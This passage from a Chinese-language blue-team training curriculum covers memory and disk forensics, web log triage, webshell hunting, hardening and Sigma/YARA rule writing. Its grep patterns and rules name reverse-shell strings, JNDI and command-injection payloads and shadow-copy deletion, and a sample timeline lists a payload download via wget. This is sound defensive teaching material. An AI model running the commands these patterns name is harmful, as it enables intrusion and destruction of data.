        python3 vol.py -f memory.raw windows.pslist > pslist.txt
        diff psscan.txt pslist.txt

        # 3. 檢查網絡連線狀態與對應 PID
        python3 vol.py -f memory.raw windows.netscan

        # 4. 查看所有命令行參數 (尋找 lolbas 痕跡)
        python3 vol.py -f memory.raw windows.cmdline
        ```

*   **📝 晚間 22:00 全員檢核題目**：
    *   **檢核點 1**：若 `svchost.exe` 在 `windows.pslist` 中的 PID 為 4320，其 PPID（父進程）應該是誰？如果 PPID 指向 `explorer.exe` 代表什麼？
    *   **檢核點 2**：`windows.psscan` 與 `windows.pslist` 的根本搜尋原理差異為何？

---

### Day 6：代碼注入 (malfind)、DLL 注入與記憶體惡意載荷提取

*   **🎯 當日全員同步核心目標**：
    1. 掌握 Process Hollowing、Process Injection、Reflective DLL Injection 在記憶體中的典型標記（PAGE_EXECUTE_READWRITE / RWX 屬性）。
    2. 熟練使用 Volatility 3 `windows.malfind`、`windows.dlllist`、`windows.ldrmodules` 抓出無實體檔案的惡意代碼（Fileless Malware）。
    3. 能將記憶體中的惡意 Payload（Shellcode/PE）Dump 到本地，並用 strings / YARA 提取 C2 設定檔。

*   **📚 前置必讀教材與核心概念解析（全員 09:00 - 12:00 研讀）**：
    *   **核心觀念 1：什麼是 malfind 的命中依據？（VAD 樹與 RWX 標籤）**  
        Windows 記憶體管理使用 VAD（Virtual Address Descriptor）樹來追蹤虛擬記憶體區段。正常的可執行檔加載時，代碼段通常是 `PAGE_EXECUTE_READ`（唯讀執行），資料段是 `PAGE_READWRITE`。當攻擊者使用 `VirtualAllocEx` 申請 `PAGE_EXECUTE_READWRITE`（可讀可寫可執行 / RWX）且該區段沒有映射到硬碟實體檔案（No File-backed）時，`malfind` 會立即判定為高度可疑注入！
    *   **核心觀念 2：從 Dump 檔案萃取 C2 設定檔（Beacon Config Parsing）**  
        Dump 出來的記憶體片段通常包含未加密的 Cobalt Strike Beacon 設定（或 XOR 0x2e/0x69 加密）。藍隊可使用開源工具 `1768.py` 或 `CobaltStrikeScan` 直接解析出 C2 網址、Port、Public Key、User-Agent 與 Jitter 參數。
    *   **推薦對照教材與參考講義**：
        - 實戰文章：[SANS DFIR - Memory Forensics Cheat Sheet](https://www.sans.org/posters/memory-forensics-cheat-sheet/)。

*   **🧪 全員同步必修實作關卡（全員 13:30 - 18:00 實機）**：
    *   **實機環境**：CyberDefenders - "Injection" / "Stalker" 記憶體鏡像。
    *   **全員必解題型**：
        1. 透過 `windows.malfind` 定位被注入的正常進程（如 `explorer.exe`, `spoolsv.exe`, `notepad.exe`）。
        2. 從 malfind 輸出辨識 PE 檔案頭特徵（`4D 5A` / `MZ` 標誌）。
        3. 使用 `--dump` 將被注入的記憶體區段導出為檔案，並使用 `strings` 或 `1768.py` (Cobalt Strike config parser) 還原 C2 IP 與 Watermark。
    *   **注入排查與導出實戰指令**：
        ```bash
        # 1. 執行 malfind 尋找具有 RWX 權限且含有代碼特徵的記憶體段
        python3 vol.py -f memory.raw windows.malfind

        # 2. 將特定可疑 PID (如 PID 2480) 的 malfind 記憶體 dump 出來
        python3 vol.py -f memory.raw -o ./dump windows.malfind --pid 2480 --dump

        # 3. 檢查未鏈接模組 (Unlinked DLLs)
        python3 vol.py -f memory.raw windows.ldrmodules --pid 2480

        # 4. 提取記憶體字串中的 URL / IP / User-Agent
        strings -e l ./dump/pid.2480.*.vacb.dmp | grep -iE "http://|https://|cmd.exe|powershell"
        ```

*   **📝 晚間 22:00 全員檢核題目**：
    *   **檢核點 1**：什麼是 `PAGE_EXECUTE_READWRITE`？為什麼正常軟體極少在可寫區域開啟執行權限？
    *   **檢核點 2**：如何在 Dump 出來的 Shellcode 檔案中快速定位 Cobalt Strike 的 Beacon 設定檔？

---

## 🗄️ 第四階段：磁碟鑑識、工件分析與時間線重建 (Run 4)

### Day 7：KAPE 工件採集、NTFS $MFT 深度鑑識與 Timestomping 破解

*   **🎯 當日全員同步核心目標**：
    1. 掌握現代 Windows 應急快速採集神器 KAPE（Kroll Artifact Parser and Extractor）的 Targets 與 Modules 組合。
    2. 理解 NTFS 檔案系統核心元數據架構：`$MFT`、`$LogFile`、`$UsnJrnl`。
    3. 全員學會使用 Eric Zimmerman 工具（`MFTECmd.exe`）將 `$MFT` 轉化為 CSV，在 15 分鐘內建立「攻擊發生前後 30 分鐘檔案變動時間線」。

*   **📚 前置必讀教材與核心概念解析（全員 09:00 - 12:00 研讀）**：
    *   **核心觀念 1：什麼是死碟鑑識與 KAPE 目標採集？**  
        在伺服器硬碟動輒 1TB~10TB 的情況下，全磁碟鏡像（`dd` / `FTK Imager`）耗時數小時，在比賽中絕對會超時出局。KAPE 採用「Triage 首選」哲學，僅鎖定最關鍵的鑑識工件（Registry, Event Logs, Prefetch, LNK, MFT, Amcache），在 2 分鐘內採集僅數百 MB 的核心工件，並直接呼叫解析模組轉成 CSV。
    *   **核心觀念 2：NTFS 雙時間戳與破解 Timestomping（時間戳偽造）**  
        NTFS 的 `$MFT` 記錄中，每個檔案都有兩套 MACB 時間戳：
        - `$STANDARD_INFORMATION` (0x10 屬性)：常規 API 顯示的時間。黑客可輕易用工具（如 `timestomp.exe`）將其竄改成與正常系統檔案（如 `calc.exe` 的 2019 年）一模一樣。
        - `$FILE_NAME` (0x30 屬性)：由 Windows 內核維護，常規用戶態 API 無法修改！當攻擊者 Timestomp 後，0x10 時間可能顯示 2019 年，但 0x30 時間依然暴露其真實寫入時間（如 2026-09-10 14:22:05）。比對兩者即可一秒識破偽造！
    *   **推薦對照教材與參考講義**：
        - 本地精選：`HW17-快速应急响应技术-v1.0.pdf`（重點研讀 Windows 工件排查流程）。
        - 實戰工具手冊：[Eric Zimmerman's Tools 官方使用手冊](https://ericzimmerman.github.io/)。

*   **🧪 全員同步必修實作關卡（全員 13:30 - 18:00 實機）**：
    *   **實機環境**：CyberDefenders - "MFTExploration" 或 本地 KAPE 產物目錄。
    *   **全員必解題型**：
        1. 解析 `$MFT`，找出黑客上傳到系統中的第一個檔案名稱、完整路徑與寫入時間戳（$STANDARD_INFORMATION vs $FILE_NAME，辨識 Timestomping 時間偽造）。
        2. 透過 `$UsnJrnl` 追蹤被攻擊者手動刪除或清場的惡意腳本記錄。
    *   **Zimmerman 工具群秒速解析命令**：
        ```cmd
        :: 1. 使用 MFTECmd 解析 $MFT 到 CSV
        MFTECmd.exe -f "C:\C\$MFT" --csv "C:\Analysis" --csvf mft_analysis.csv

        :: 2. 使用 Timeline Explorer 或 PowerShell 快速搜尋指定路徑與時間
        :: 尋找 Temp, Users\Public, Windows\Temp 內的新增 exe/bat/ps1/vbs
        ```
        ```powershell
        # PowerShell 快速篩選 MFT CSV
        Import-Csv C:\Analysis\mft_analysis.csv |
            Where-Object { $_.ParentPath -match 'Windows\\Temp|Users\\Public|AppData\\Local\\Temp' } |
            Select-Object Created0x10, FileName, ParentPath, FileSize |
            Sort-Object Created0x10 -Descending | Select-Object -First 30
        ```

*   **📝 晚間 22:00 全員檢核題目**：
    *   **檢核點 1**：NTFS 中 `$STANDARD_INFORMATION` (0x10) 與 `$FILE_NAME` (0x30) 的時間戳有何差別？Timestomping 攻擊通常只能竄改哪一個？
    *   **檢核點 2**：USN Journal（更新序列號日誌）在排查勒索軟體加密行為時能提供什麼關鍵證據？

---

### Day 8：程式執行痕跡 (Prefetch, Amcache, Shimcache) 與時間線還原

*   **🎯 當日全員同步核心目標**：
    1. 熟練掌握 Windows 三大程式執行證據源原理與底層存儲：
       - **Prefetch** (`PECmd.exe`)：確認程式執行過、執行時間、執行次數、引用的 DLL/檔案。
       - **Shimcache** (AppCompatCache / `AppCompatCacheParser.exe`)：確認二進位檔是否存在並被系統加載過。
       - **Amcache** (`AmcacheParser.exe`)：取得程式執行時的 SHA1 Hash、原始檔案名與編譯時間。
    2. 全員掌握將 MFT、Prefetch、Event Log 合併產生 Super Timeline 的方法。

*   **📚 前置必讀教材與核心概念解析（全員 09:00 - 12:00 研讀）**：
    *   **核心觀念 1：三大執行證據的互補鐵三角**  
        - **檔案被刪了怎麼辦？** 看 **Prefetch**（副檔名 `.pf`）。即使原程式 `mimikatz.exe` 被攻擊者 `del` 刪除，Prefetch 中依然保留其檔名、最後 8 次執行時間戳、總執行次數、以及加載過的 DLL 清單！
        - **找不到 Hash 怎麼辦？** 看 **Amcache.hve**。Amcache 會為曾運行的未知 PE 檔案記錄其 SHA1 雜湊值與檔案路徑，是上傳威脅情報庫（VirusTotal）求證的重要利器。
        - **只想知道有沒有被執行過？** 看 **Shimcache**（位於 SYSTEM 登錄檔）。能記錄高達 1024 筆以上的歷史檔案執行清單。
    *   **推薦對照教材與參考講義**：
        - 實戰文章：[SANS - Windows Forensic Analysis Poster (Evidence of Execution)](https://www.sans.org/posters/windows-forensic-analysis/)。

*   **🧪 全員同步必修實作關卡（全員 13:30 - 18:00 實機）**：
    *   **實機環境**：CyberDefenders - "RedLine" / "Spotlight" 工件包。
    *   **全員必解題型**：
        1. 使用 `PECmd.exe` 解析 `C:\Windows\Prefetch`，找出攻擊者何時執行了 `MIMIKATZ.EXE`（或被改名的 `LSASS_DUMP.EXE`），並統計其總共執行了幾次。
        2. 解析 `Amcache.hve`，取得攻擊者自編後門工具的 SHA1 Hash，送至 VirusTotal 研判家族。
        3. 結合所有工件，產出一份包含「檔案落地 -> 檔案執行 -> 提權工具執行 -> 橫向移動」的 10 行標準時間線表格。
    *   **執行痕跡解析實戰指令**：
        ```cmd
        :: 1. 解析 Prefetch 目錄
        PECmd.exe -d "C:\Windows\Prefetch" --csv "C:\Analysis\Prefetch"

        :: 2. 解析 Shimcache (SYSTEM 註冊表)
        AppCompatCacheParser.exe -f "C:\Windows\System32\config\SYSTEM" --csv "C:\Analysis\Shim"

        :: 3. 解析 Amcache.hve (取得執行程式之 SHA1)
        AmcacheParser.exe -f "C:\Windows\appcompat\Programs\Amcache.hve" --csv "C:\Analysis\Amcache"
        ```

*   **📝 晚間 22:00 全員檢核題目**：
    *   **檢核點 1**：如果攻擊者執行了程式後立即刪除該 `.exe`，Prefetch 檔案是否還會存在？能提供哪些關鍵證據？
    *   **檢核點 2**：Shimcache 中的時間戳（Last Modified Time）代表的是執行時間還是檔案自身的修改時間？

---

## 🛡️ 第五階段：Web 攻擊研判、Webshell 清剿與內存馬防禦 (Run 5)

### Day 9：Web 漏洞打點研判與存取日誌深度關聯分析

*   **🎯 當日全員同步核心目標**：
    1. 掌握三大 Web 伺服器（Nginx, Apache, IIS W3C）日誌格式與分析技巧。
    2. 能精準識別常見 RCE 漏洞利用行為（Log4j/Log4Shell、Spring4Shell、Fastjson、SQLi、Command Injection）。
    3. 全員能在 Linux Bash 下透過 `awk`, `sed`, `grep` 與 Python 快速產出攻擊者 IP 的行為剖繪（User-Agent、請求量、響應狀態碼分佈、成功注入之 Payload）。

*   **📚 前置必讀教材與核心概念解析（全員 09:00 - 12:00 研讀）**：
    *   **核心觀念 1：Web 日誌的盲點：為什麼不能只看「請求 URI 含有攻擊特徵」？**  
        在公網環境下，每天有數以萬計的自動化爬蟲在掃描注入。如果看到 `${jndi:ldap...}` 就判定主機被攻陷，會造成大量誤報（False Positive）。藍隊研判四步法：
        1. **請求 URI/Header 是否含攻擊 Payload？**（確認是否被掃描）
        2. **HTTP 響應狀態碼為何？**（404/403 表示未命中或被擋；200/500 表示後端解析執行）
        3. **回應位元組大小（`body_bytes_sent`）是否異常突增？**（若平時 200 響應僅 500 bytes，某筆請求突然變 15000 bytes，通常代表資料庫或原始碼被 Dump 回傳）
        4. **後續是否有主機外聯？**（對照 Sysmon EID 3 或防火牆日誌，確認 Java 進程是否向外部 IP 發起 LDAP 389 或反彈 Shell）
    *   **推薦對照教材與參考講義**：
        - 內部離線參考（詳見 [sources_index.md](../90_runs/sources_index.md)）：`07_藍隊防禦與護網營運/03_日誌與告警研判/Web日誌分析與逃逸檢測/Web日志安全分析工具 v2.0.zip`。
        - 實戰文章：`HW16-告警日志分析技术-v1.1.pdf`。

*   **🧪 全員同步必修實作關卡（全員 13:30 - 18:00 實機）**：
    *   **實機環境**：CyberDefenders - "Log4j" / "TomcatTakeover" 或 本地 Web Access 日誌包。
    *   **全員必解題型**：
        1. 從 50 萬筆 Nginx 日誌中，找出利用 Log4Shell (`${jndi:ldap://...}`) 進行打點的源 IP，並提取其 LDAP 遠端加載的 Java Class 名稱。
        2. 尋找利用 SQL 注入成功獲取管理員帳密之 SQL 盲注請求，定位攻擊者成功猜解字元之時間序列。
        3. 透過 HTTP 500 / 200 狀態碼與回應封包大小（`body_bytes_sent`），找出真正攻破系統成功執行的打點請求。
    *   **Linux CLI 秒殺 Web 日誌分析腳本**：
        ```bash
        # 1. 抓出前 20 大請求 IP 與訪問次數
        awk '{print $1}' access.log | sort | uniq -c | sort -nr | head -n 20

        # 2. 搜尋 Log4j / JNDI 注入特徵 (涵蓋大小寫與繞過變形)
        grep -iE "(\$\{jndi|\$\{lower|\$\{upper|\$\{env)" access.log | awk '{print $1, $4, $7}'

        # 3. 搜尋常見反彈 Shell 或命令執行參數
        grep -iE "(bash%20-i|/bin/sh|cmd.exe|powershell.exe|whoami|cat%20/etc/passwd)" access.log

        # 4. 統計 HTTP 狀態碼分佈
        awk '{print $9}' access.log | sort | uniq -c | sort -nr
        ```

*   **📝 晚間 22:00 全員檢核題目**：
    *   **檢核點 1**：在 Web 日誌中，為什麼不能只看「請求 URI 含有攻擊特徵」，而必須重點比對「HTTP 狀態碼與傳回位元組長度」？
    *   **檢核點 2**：面對使用 URL 編碼、Base64 或嵌套變數繞過的 JNDI 攻擊字串，有哪些通用的正則過濾策略？

---

### Day 10：Webshell 排查、Java 內存馬清剿與反序列化後門

*   **🎯 當日全員同步核心目標**：
    1. 掌握一鍵掃描與手動排查各類 Webshell（PHP 一句話後門、JSP 冰蠍 Behinder / 哥斯拉 Godzilla 流量特徵與解密）。
    2. 理解無實體檔案的 Java 內存馬（Filter 內存馬、Servlet 內存馬、Agent 內存馬）原理。
    3. 全員學會使用排查工具（`arthas`、`copagent`、D盾、Loki）偵測並清除內存馬與硬碟 Webshell。

*   **📚 前置必讀教材與核心概念解析（全員 09:00 - 12:00 研讀）**：
    *   **核心觀念 1：什麼是 Java 內存馬（無檔案落地後門）？**  
        傳統 Webshell 必須在磁碟建立 `.jsp` 檔案，容易被防毒軟體或檔案完整性檢測（FIM）抓到。Java 內存馬利用 Java 反射或 Java Agent 機制，動態向執行中的 Web 容器（如 Tomcat）註冊惡意 `Filter` 或 `Servlet`。硬碟上完全沒有任何惡意檔案，但每當使用者發送 HTTP 請求時，惡意代碼就會在記憶體中先被執行！
    *   **核心觀念 2：如何用 Alibaba Arthas 活體檢測 Java 內存馬？**  
        Arthas 是阿里巴巴開源的 Java 診斷工具。藍隊進入 JVM 容器後：
        - 執行 `sc *.Filter` 檢視系統中加載的所有 Filter 類別名稱。
        - 找出命名隨機（如 `Filter123`）、路徑不屬於正常套件（如不屬於 `org.apache.catalina...` 或自家業務 package）的可疑 Filter。
        - 執行 `jad <全限定類名>` 現場直接逆向反編譯該記憶體 Filter 的原始碼，立即抓出隱藏的一句話後門！
    *   **推薦對照教材與參考講義**：
        - 實戰文檔：[Alibaba Arthas 官方快速上手手冊](https://arthas.aliyun.com/doc/)。

*   **🧪 全員同步必修實作關卡（全員 13:30 - 18:00 實機）**：
    *   **實機環境**：CyberDefenders - "BehinderHunting" / 本地 Java Tomcat 靶機環境。
    *   **全員必解題型**：
        1. 使用 YARA 與 Shell 腳本，從 Linux 伺服器 `/var/www/html` 掃描並揪出利用 `eval($_POST[...])` 隱藏在正常圖片目錄中的 Webshell。
        2. 分析冰蠍 (Behinder v3/v4) 或哥斯拉 (Godzilla) 加密通訊流量，還原攻擊者下達的遠端指令與檔案上傳內容。
        3. 在 JVM 運行環境下使用 Alibaba Arthas，Dump 出動態注入的惡意 Filter Class，並予以移除。
    *   **Webshell 與內存馬實戰排查指令**：
        ```bash
        # 1. 尋找最近 24 小時內被修改或新增的 PHP/JSP 腳本
        find /var/www/html -name "*.php" -o -name "*.jsp" -mtime -1 -ls

        # 2. 搜尋 PHP 危險函數呼叫
        grep -rnEi "(eval\(|assert\(|system\(|passthru\(|shell_exec\(|base64_decode\()" /var/www/html/

        # 3. Arthas 檢查 Tomcat 當前加載之 Filters
        # 下載 arthas-boot.jar 後執行: java -jar arthas-boot.jar
        # 進入終端後執行:
        [arthas@1234]$ mbean org.apache.catalina.core.StandardContext *
        [arthas@1234]$ sc *.Filter
        [arthas@1234]$ jad com.malicious.filter.EvilFilter
        ```

*   **📝 晚間 22:00 全員檢核題目**：
    *   **檢核點 1**：Java 內存馬即使重啟 Web 應用可能暫時失效，但攻擊者如何達成內存馬的持久化？
    *   **檢核點 2**：冰蠍 v3 與哥斯拉 Webshell 的通訊加密協商過程在流量上有何最顯著的握手特徵？

---

## 🚧 第六階段：圍堵加固、後門根除與偵測工程 (Run 6)

### Day 11：主機應急阻斷、後門根除與全網服務加固

*   **🎯 當日全員同步核心目標**：
    1. 掌握 5 分鐘內完成「應急隔離而不中斷賽事計分」的網路防禦策略（iptables, Windows Firewall, hosts.deny）。
    2. 全面清剿攻擊者留存的持久化機制（Crontab、SSH authorized_keys、SUID 提權檔、Windows 註冊表 RunKey、排程工作 Scheduled Tasks、隱藏帳號）。
    3. 全員學會撰寫自動化腳本一鍵切斷所有未知外聯連線並備份現場日誌。

*   **📚 前置必讀教材與核心概念解析（全員 09:00 - 12:00 研讀）**：
    *   **核心觀念 1：Cyber Range 賽事的 SLA（服務等級協定）生死線**  
        在真實攻防或 Cyber Range 比賽中，防守方絕不能使用「拔網線 / 停用網卡 / 關閉 Web 伺服器」的消極防禦！賽事平台會有機器人定期發起 SLA 巡檢（Health Check），若某項業務連線失敗超過 3 分鐘，將遭到巨額扣分甚至直接判負。藍隊的圍堵必須是「精準微創手術」：只針對惡意 C2 IP / Port 進行單向阻斷，並確保 HTTP 80/443 與評分伺服器的通路暢通無阻。
    *   **核心觀念 2：Linux 與 Windows 隱蔽持久化（Persistence）全方位清剿**  
        - **Linux 排程與權限**：檢查 `/var/spool/cron/*`、`/etc/cron.*`、`/etc/rc.local`，以及 `find / -perm -4000 2>/dev/null`（排查被偷偷賦予 SUID 的 root 後門二進位檔案）。
        - **Windows 核心自啟**：除了 `Run` 鍵值外，重點排查 `Winlogon\Userinit`、`Services`（EID 7045）、WMI 事件訂閱（`CommandLineEventConsumer`）。
    *   **推薦對照教材與參考講義**：
        - 內部離線精選（詳見 [sources_index.md](../90_runs/sources_index.md)）：`HW09-安全加固实施标准-v1.0.pdf` 與 `HW17-快速应急响应技术-v1.0.pdf`。
        - 內部離線實操（詳見 [sources_index.md](../90_runs/sources_index.md)）：`07_藍隊防禦與護網營運/02_存取控制與防火牆/Linux存取控制與防火牆/防火牆練習-實驗-2024.docx`。

*   **🧪 全員同步必修實作關卡（全員 13:30 - 18:00 實機）**：
    *   **實機環境**：本地 Linux (Ubuntu) + Windows Server 2022 雙系統應急演練靶機。
    *   **全員必解題型**：
        1. 阻斷未知對外連線（ESTABLISHED 出站連線），僅放行 Cyber Range 評分系統（SLA Check）之指定 IP 與 Port。
        2. 全面排查 Linux 排程任務：`/etc/crontab`, `/etc/cron.*`, `/var/spool/cron/crontabs/*`，刪除定時反彈 shell 任務。
        3. 檢查 Windows 註冊表開機啟動項（HKLM\Software\Microsoft\Windows\CurrentVersion\Run）與 Task Scheduler，刪除惡意排程。
    *   **極速應急加固腳本手冊**：
        ```bash
        # 1. Linux 查看異常監聽與連線 (附帶 PID 與進程名稱)
        ss -antup | grep -E "ESTAB|LISTEN"

        # 2. Linux 檢查最近登入與歷史指令
        last -n 20
        cat ~/.bash_history | tail -n 50

        # 3. Linux 快速封鎖惡意 C2 IP (阻斷出站與入站)
        iptables -I INPUT -s 192.168.1.100 -j DROP
        iptables -I OUTPUT -d 192.168.1.100 -j DROP

        # 4. 檢查 SSH authorized_keys 是否被偷塞公鑰
        cat /root/.ssh/authorized_keys
        cat /home/*/.ssh/authorized_keys 2>/dev/null
        ```
        ```powershell
        # Windows 封鎖惡意 IP
        New-NetFirewallRule -DisplayName "Block_Malicious_C2" -Direction Outbound -RemoteAddress 192.168.1.100 -Action Block
        # 檢查排程任務
        Get-ScheduledTask | Where-Object { $_.State -ne 'Disabled' -and $_.TaskPath -notmatch 'Microsoft' } | Select-Object TaskName, TaskPath
        ```

*   **📝 晚間 22:00 全員檢核題目**：
    *   **檢核點 1**：在 Cyber Range 比賽中，若為了防守直接將整台主機網卡停用（Disable），會面臨什麼嚴重的賽事扣分懲罰？
    *   **檢核點 2**：Linux 中除了常規的 `crontab -l`，攻擊者最常將定時任務寫入哪些系統層級目錄？

---

### Day 12：Sigma 與 YARA 偵測規則實戰編寫 (Detection Engineering)

*   **🎯 當日全員同步核心目標**：
    1. 掌握 Cyber Range 藍隊必備的「偵測工程」（Detection as Code）技能。
    2. 能在 15 分鐘內根據當天捕獲的 APT 樣本撰寫出 **YARA Rule**，並完成全磁碟掃描驗證。
    3. 能根據攻擊者使用的 LOLBAS 行為（如 `certutil -decode` 或 `vssadmin delete shadows`）撰寫通用 **Sigma Rule**，並轉譯為 Splunk SPL / Elastic 查詢語法。

*   **📚 前置必讀教材與核心概念解析（全員 09:00 - 12:00 研讀）**：
    *   **核心觀念 1：YARA 語法精粹（Strings, Hex, Condition 性能優化）**  
        - 不要隨意使用大量 `nocase`（不區分大小寫），這會大幅拖慢掃描效能。
        - 善用檔案頭特徵限制搜尋空間（例如 `$mz_header at 0` 確保只比對 PE 可執行檔，避開幾十 GB 的日誌或資料庫）。
        - 結合檔案大小條件（如 `filesize < 5MB`），防止掃描超大檔案造成記憶體耗盡。
    *   **核心觀念 2：Sigma 規則的「跨平臺轉譯」價值**  
        Sigma 類似資安界的 Markdown。只要撰寫一份標準的 YAML 規則，透過 `sigmac` 或 `pySigma`，即可一鍵編譯成 Splunk SPL、Elasticsearch DSL、QRadar AQL 或 PowerShell 腳本，免去針對不同 SIEM 重寫語法的痛苦。
    *   **推薦對照教材與參考講義**：
        - 官方手冊：[YARA 官方語法手冊 (Writing YARA Rules)](https://yara.readthedocs.io/en/stable/writingrules.html)。
        - 官方規則庫：[Sigma 官方標準規則庫 (SigmaHQ)](https://github.com/SigmaHQ/sigma)。

*   **🧪 全員同步必修實作關卡（全員 13:30 - 18:00 實機）**：
    *   **實機環境**：YARA CLI 工具 + Sigma CLI (sigmac / pySigma) 轉譯環境。
    *   **全員必解題型**：
        1. 針對被捕獲的 Webshell 樣本，提取關鍵字串、十六進位特徵碼與檔案大小限制，編寫出無 False Positive 的 YARA 規則。
        2. 編寫一條 Sigma 規則：偵測任何嘗試刪除磁碟陰影複製（Shadow Copies）的命令行（如 `vssadmin.exe Delete Shadows /All /Quiet` 或 `wmic shadowcopy delete`）。
        3. 使用 `sigmac -t splunk` 將 Sigma 規則轉換為 Splunk 告警查詢式。
    *   **標準 YARA 與 Sigma 規則範本**：
        ```yara
        /* 偵測 Cobalt Strike Beacon 反射加載特徵 */
        rule CobaltStrike_Beacon_Memory {
            meta:
                author = "BlueTeam_AllStar"
                description = "Detects CS Beacon in memory or dropped PE"
                reference = "HITCON 2026 Cyber Range"
            strings:
                $beacon_str1 = "%02d/%02d/%02d %02d:%02d:%02d" ascii
                $beacon_str2 = "Started service %s on %s" ascii
                $pipe_pattern = "\\\\%s\\pipe\\msagent_" ascii
                $mz_header = { 4D 5A }
            condition:
                $mz_header at 0 and ($pipe_pattern or (all of ($beacon_str*)))
        }
        ```
        ```yaml
        # 偵測勒索軟體前兆：刪除陰影複製 (Volume Shadow Copy Deletion)
        title: Volume Shadow Copy Deletion via CLI
        status: experimental
        description: Detects command line tools attempting to delete shadow copies
        logsource:
            category: process_creation
            product: windows
        detection:
            selection_vssadmin:
                Image|endswith: '\vssadmin.exe'
                CommandLine|contains|all:
                    - 'delete'
                    - 'shadows'
            selection_wmic:
                Image|endswith: '\wmic.exe'
                CommandLine|contains|all:
                    - 'shadowcopy'
                    - 'delete'
            condition: selection_vssadmin or selection_wmic
        level: high
        ```

*   **📝 晚間 22:00 全員檢核題目**：
    *   **檢核點 1**：在 YARA 規則中，使用 `$s nocase`、`$s wide ascii` 與全 Hex 匹配的效能與誤報率考量為何？
    *   **檢核點 2**：Sigma 規則轉換為 Splunk 查詢時，`contains|all` 與 `contains` 在布林邏輯上分別對應什麼？

---

## 🏆 第七階段：全真 Cyber Range 模擬賽與三角作戰協同 (Run 7)

### Day 13：企業混合網 APT 端到端盲測演練 (8 小時實戰模擬)

*   **🎯 當日全員同步核心目標**：
    1. 全隊 3 人投入一場完整的 **8 小時端到端 APT 模擬賽**（涵蓋打點 -> 外聯 -> 提權 -> 橫向移動 -> 勒索部署）。
    2. 全面驗證「三人三角協同作戰機制（Triangle Defense Mesh）」：一人輪值主控 SIEM 看板、一人負責流量與外聯阻斷、一人負責端點死守與記憶體取證，每 2 小時依 SOP 輪轉角色。
    3. 全員在高壓時間倒數下，完成從發現告警到提交 Flag、編寫 Incident Report 的全流程。

*   **🧪 全員同步必修實作關卡**：
    *   **實機環境**：`../../../security/practice/exams/mock_exam_b_lab_questions.md`（全員限時 180 分鐘閉卷實操對戰）或 CyberDefenders 社群公開靶場（如 "PacketDetective" / "RedLine"）。
    *   **演練情境設定**：
        *   **09:00 - 10:30**：DMZ Web 伺服器遭受 0-day / RCE 漏洞打點，外聯下載 Dropper。
        *   **10:30 - 12:00**：攻擊者在內部執行 Mimikatz 抓取本機 Hash，並透過 Pass-the-Hash (PtH) 橫向滲透至內部跳板機。
        *   **13:00 - 15:00**：攻擊者偽造 Golden Ticket 攻陷網域控制站 (DC)，安裝自啟動服務與排程任務。
        *   **15:00 - 17:00**：攻擊者啟動勒索軟體進行部分磁碟加密並建立 DNS 外傳通道。
    *   **作戰目標**：
        1. 在 15 分鐘內找出攻擊者 Initial Access 漏洞請求與 IP。
        2. 在 30 分鐘內提取 C2 IP 並下發防火牆阻斷規則。
        3. 在 60 分鐘內定位被提權之域控帳號並強制登出重設 Kerberos krbtgt。
        4. 找出勒索軟體原形並編寫 YARA 規則阻斷全網擴散。

---

### Day 14：賽後 Writeup 產出、官方評分複查與三角協同覆盤

*   **🎯 當日全員同步核心目標**：
    1. 全員掌握標準 **Cyber Range Incident Response Writeup** 的撰寫框架（Executive Summary, Attack Lifecycle Timeline, MITRE ATT&CK Mapping, Root Cause, Remediation & Hardening Guide）。
    2. 深度覆盤 Day 13 模擬賽中產生的任何誤判、漏看日誌、工具使用卡頓或溝通盲區。
    3. 完善全隊專屬的「賽場 3 分鐘應急腳本庫」與「USB 隨身離線鑑識工具包」。

*   **📝 晚間 22:00 全員檢核成果**：
    *   完成一份 10 頁標準企業應急響應報告（含完整 IOC 清單、MD5/SHA256、IP/Domain、註冊表鍵值）。
    *   全員簽署確認已 100% 掌握 5 大工具庫與 7 大階段技能。

---

## 🔺 三人三角協同作戰機制 (The Triangle Defense Mesh)

在 HITCON 藍隊競賽或企業 Cyber Range 中，最常見的失敗原因不是「技術不會」，而是「資訊孤島」、「重複作業」與「無人監控全局告警」。

由於本特訓要求**全員具備 100% 全棧技術**，因此三人之間不再存在死板的「角色壁壘」，而是採用高度靈活的 **三角協同作戰矩陣（Triangle Defense Mesh）**：



### 1. 2 小時動態輪轉機制 (Role Rotation)
競賽持續 6~8 小時，單一人員長時間盯螢幕極易產生疲勞漏報。全隊每 2 小時順時針輪轉一次崗位：
*   **主控員 (Controller)**：盯緊 SIEM / 告警看板，統籌記錄全局攻擊時間線，負責向賽事平台提交 Flag 與答題。
*   **獵捕員 (Hunter)**：負責抓取 PCAP、Zeek 日誌、C2 流量分析、還原惡意二進位檔案與反編譯。
*   **加固員 (Defender)**：負責登入受害主機下發防火牆阻斷、執行 Volatility 記憶體取證、KAPE 工件採集、撰寫 YARA/Sigma 規則。

### 2. 雙人覆核原則 (The Two-Man Rule)
*   **阻斷動作覆核**：在下發 `iptables DROP` 或重啟關鍵服務前，加固員必須向主控員口頭報備：「預計阻斷 IP 192.168.1.50，是否會影響 SLA 評分？」，經確認後方可執行。
*   **Flag 提交覆核**：任何隊員解出的 Flag 或關鍵答案（如 Hash、CVE 編號、時間戳），必須經由另一名隊員在原始 Log/檔案中快速二次核對，避免因字元空格或大小寫浪費提交次數扣分。

### 3. 共享即時時間線看板 (Shared Timeline Matrix)
競賽開始第 1 分鐘，主控員立即在共享協同文件（如 CodiMD / Notion / 本地 Markdown）建立時間線表格，三員全員隨時填寫：

| 攻擊階段 (ATT&CK) | 發現時間 (UTC/Local) | 來源 IP / 受害主機 | 攻擊手段 / 漏洞 / 檔案 | 關鍵證據 (Log ID / Hash / Pcap No.) | 應對處置 (封鎖 / 清除 / 規則) | 處置人員 | 驗證狀態 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| Initial Access | 09:14:22 | 203.0.113.5 -> Web01 | Spring4Shell (CVE-2022-22965) | access.log: Line 4820 | 封鎖 IP + WAF 規則上線 | 隊員 B | ✅ 已驗證 |
| Execution | 09:18:05 | Web01 | `wget http://.../cs.bin` | Sysmon EID 1 (curl/wget) | 進程已 Kill + 檔案已刪除 | 隊員 C | ✅ 已驗證 |
| C2 Communication | 09:20:00 | Web01 -> 198.51.100.22 | Cobalt Strike HTTPS Beacon (443) | Zeek conn.log / PCAP #1240 | 邊界防火牆阻斷 198.51.100.22 | 隊員 A | ✅ 已驗證 |

---

## ⚡ 賽場高頻速查指令手冊 (Emergency Cheat Sheet)

### 1. 網路與連線秒查 (Linux & Windows)
```bash
# Linux 查看所有對外 ESTABLISHED 連線與進程
ss -antup | grep ESTAB

# 找出特定 PID 的進程檔案位置
ls -l /proc/<PID>/exe

